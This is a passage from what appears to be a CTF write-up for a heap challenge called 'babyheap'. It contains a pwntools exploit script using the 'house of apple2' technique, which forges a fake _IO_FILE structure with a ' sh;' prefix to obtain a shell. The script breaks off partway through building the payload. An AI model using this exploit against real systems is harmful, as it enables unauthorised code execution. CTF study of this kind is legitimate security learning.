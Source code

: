 > 触发漏洞

```python
p.recvuntil(b">> \n")
p.sendline(b"5")
inter()
```


## 2. house of apple2

**EXP:**

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
s=process("./babyheap")
#s=remote("172.10.0.7",10001)
libc=ELF("./libc.so.6")

def debu(cmd=''):
    gdb.attach(s,cmd)
    pause()

def menu(ch):
    s.sendlineafter(b">> \n",str(ch).encode())

def add(size,content=b"/bin/sh\x00"):
    menu(1)
    s.sendlineafter(b"size\n",str(size).encode())
    if len(content)<size:
        content+=b"\n"
    s.sendafter(b"name\n",content)

def edit(idx,size,content):
    menu(2)
    s.sendlineafter(b"index\n",str(idx).encode())
    s.sendlineafter(b"size\n",str(size).encode())
    s.sendlineafter(b"name\n",content)

def show(idx,):
    menu(3)
    s.sendlineafter(b"index\n",str(idx).encode())
    return s.recvline()[:-1]

def delete(idx):
    menu(4)
    s.sendlineafter(b"index\n",str(idx).encode())

def apple2(libc,fake_IO_FILE,size):
    IO_wfile_jumps = libc.sym["_IO_wfile_jumps"]
    lock = libc.address+0x2008e0
    #pwndbg> p/x 0x7fa64e09c8e0-0x7fa64de9c000
    #$1 = 0x2008e0
    payload = b' sh;\x00\x00\x00\x00'
    payload += p64(0x921)
    payload += p64(0x0)*0xd
    payload += p64(0xffffffffffffffff)
    payload += p64(0x0)
    payload += p64(lock) #lock fp->0x88
    payload += p64(0xffffffffffffffff)
    payload += p64(0x0)
    payload += p64(fake_IO_FILE+0xe0) #wide_data (fp->0xa0) 
    payload += p64(0x0)*3
    payload += p64(0x1) #fp->0xc0
```